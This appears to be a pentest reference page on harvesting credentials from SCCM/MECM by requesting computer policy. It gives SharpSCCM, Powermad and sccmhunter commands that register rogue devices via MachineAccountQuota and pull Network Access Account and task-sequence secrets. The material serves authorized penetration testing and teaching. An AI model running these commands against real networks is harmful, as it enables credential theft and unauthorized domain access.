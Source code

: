 # Policy Request Credentials

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/sccm-mecm/cred-2-policy-request-credentials

## Description

Request computer policy and deobfuscate secrets

## Requirements

1) PKI certificates are not required for client authentication

Additionally, any of the below requirements can be met to perform this attack.

2) Domain Computer credentials 

3) The ability to create computer objects (MachineAccountQuota)

4) Local administrator on a SCCM client

## Windows

### Local Administrator on SCCM client

If you are a local administrator or running as SYSTEM on a SCCM client. We can simply request the computer policy without specifying any credentials

    SharpSCCM.exe get secrets

### Using Domain Computer credentials

If we have a password for a domain computer account we can use this directly with SharpSCCM to register a new device

    SharpSCCM.exe get secrets -r EvilDevice -u mecm$ -p 'I(A*r@KqUuoj5oHFO=<--Snip>-->'

### Machine Account Quota

Create new machine account with Powermad

    New-MachineAccount -MachineAccount  EvilSCCM$ -Domain sccm.lab -DomainController 192.168.60.10

Use SharpSCCM to request policy for the new account

##### get secrets is preferred over naa due to secrets potentially containing further credentials from task sequences and collection varaibles

    SharpSCCM.exe get secrets -r newdevice -u EvilSCCM$ -p Evil123
    SharpSCCM.exe get naa -r newdevice -u EvilSCCM$ -p Evil123

## Linux

### SCCMhunter

##### auto, requires user credentials and MachineAccountQuota greater than 0

    python3 sccmhunter.py http -u standard-user -p 'Password1!' -d sccm.lab -dc-ip 192.168.60.10 -auto -sleep 30

##### Manual, requires user credentials and computer account credentials

    python3 sccmhunter.py http -u standard-user -p 'Password1!' -d sccm.lab -dc-ip 192.168.60.10 -cn 'EvilRiley$' -cp Evil123 -sleep 30

### CAUTION: This will create a device object within SCCM. Ensure that when on an engagement, the client is informed and request for it to be deleted once completed.

